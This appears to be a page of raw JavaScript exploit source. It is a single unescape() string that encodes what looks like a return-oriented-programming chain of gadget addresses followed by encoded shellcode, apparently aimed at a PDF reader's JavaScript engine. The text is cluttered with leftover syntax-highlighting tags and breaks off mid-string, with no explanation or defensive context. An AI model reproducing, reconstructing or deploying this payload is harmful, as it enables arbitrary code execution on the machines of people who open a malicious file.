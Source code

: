 var s = unescape(
'<span class="hljs-var_expand">%u4141%</span>u4141<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u0000%</span>u4a8a<span class="hljs-var_expand">%u2196%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u903c%</span>u4a84<span class="hljs-var_expand">%ub692%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u22c8%</span>u4a85<span class="hljs-var_expand">%u0000%</span>u1000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0002%</span>u0000<span class="hljs-var_expand">%u0102%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u2db2%</span>u4a84<span class="hljs-var_expand">%u2ab1%</span>u4a80<span class="hljs-var_expand">%u0008%</span>u0000<span class="hljs-var_expand">%ua8a6%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u9038%</span>u4a84<span class="hljs-var_expand">%ub692%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%uffff%</span>uffff<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0040%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0001<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u2db2%</span>u4a84<span class="hljs-var_expand">%u2ab1%</span>u4a80<span class="hljs-var_expand">%u0008%</span>u0000<span class="hljs-var_expand">%ua8a6%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u9030%</span>u4a84<span class="hljs-var_expand">%ub692%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%uffff%</span>uffff<span class="hljs-var_expand">%u0022%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0000<span class="hljs-var_expand">%u0000%</span>u0001<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u0004%</span>u4a8a<span class="hljs-var_expand">%u2196%</span>u4a80<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u2db2%</span>u4a84<span class="hljs-var_expand">%u2ab1%</span>u4a80<span class="hljs-var_expand">%u0030%</span>u0000<span class="hljs-var_expand">%ua8a6%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u0004%</span>u4a8a<span class="hljs-var_expand">%ua7d8%</span>u4a80<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u2db2%</span>u4a84<span class="hljs-var_expand">%u2ab1%</span>u4a80<span class="hljs-var_expand">%u0020%</span>u0000<span class="hljs-var_expand">%ua8a6%</span>u4a80<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%uaedc%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u0034%</span>u0000<span class="hljs-var_expand">%ud585%</span>u4a80<span class="hljs-var_expand">%u63a5%</span>u4a80<span class="hljs-var_expand">%u1064%</span>u4a80<span class="hljs-var_expand">%u2db2%</span>u4a84<span class="hljs-var_expand">%u2ab1%</span>u4a80<span class="hljs-var_expand">%u000a%</span>u0000<span class="hljs-var_expand">%ua8a6%</span>u4a80<span class="hljs-var_expand">%u1f90%</span>u4a80<span class="hljs-var_expand">%u9170%</span>u4a84<span class="hljs-var_expand">%ub692%</span>u4a80<span class="hljs-var_expand">%uffff%</span>uffff<span class="hljs-var_expand">%uffff%</span>uffff<span class="hljs-var_expand">%uffff%</span>uffff<span class="hljs-var_expand">%u1000%</span>u0000<span class="hljs-var_expand">%u91be%</span>u7e18<span class="hljs-var_expand">%udb51%</span>ud9c4<span class="hljs-var_expand">%u2474%</span>u5af4<span class="hljs-var_expand">%uc931%</span>u31b1<span class="hljs-var_expand">%u7231%</span>u0313<span class="hljs-var_expand">%u1372%</span>uea83<span class="hljs-var_expand">%ufa6d%</span>uad8b<span class="hljs-var_expand">%u7965%</span>u4e73<span class="hljs-var_expand">%u1e75%</span>uabfd<span class="hljs-var_expand">%u1e44%</span>ub899<span class="hljs-var_expand">%uaef6%</span>uede9<span class="hljs-var_expand">%u45fa%</span>u05bf<span class="hljs-var_expand">%u2889%</span>u2968<span class="hljs-var_expand">%u863a%</span>u044e<span class="hljs-var_expand">%ubbbb%</span>u07b3<span class="hljs-var_expand">%uc63f%</span>ue7e7<span class="hljs-var_expand">%u097e%</span>ue6fa<span class="hljs-var_expand">%u7447%</span>ubbf7<span class="hljs-var_expand">%uf210%</span>u2baa<span class="hljs-var_expand">%u4e15%</span>uc777<span class="hljs-var_expand">%u5e65%</span>u34ff<span class="hljs-var_expand">%u613d%</span>ueb2e<span class="hljs-var_expand">%u3836%</span>u0df0<span class="hljs-var_expand">%u309b%</span>u15b9<span class="hljs-var_expand">%u7df8%</span>uad73<span class="hljs-var_expand">%u0aca%</span>u6782<span class="hljs-var_expand">%uf203%</span>u4629<span class="hljs-var_expand">%u01ac%</span>u8e33<span class="hljs-var_expand">%ufa0a%</span>ue646<span class="hljs-var_expand">%u8769%</span>u3d50<span class="hljs-var_expand">%u5310%</span>ua6d4<span class="hljs-var_expand">%u10b2%</span>u034e<span class="hljs-var_expand">%uf443%</span>uc009<span class="hljs-var_expand">%ub14f%</span>u8e5e<span class="hljs-var_expand">%u4453%</span>ua4b2<span class="hljs-var_expand">%ucd6f%</span>u6b35<span class="hljs-var_expand">%u95e6%</span>uaf11<span class="hljs-var_expand">%u4ea3%</span>uf63b
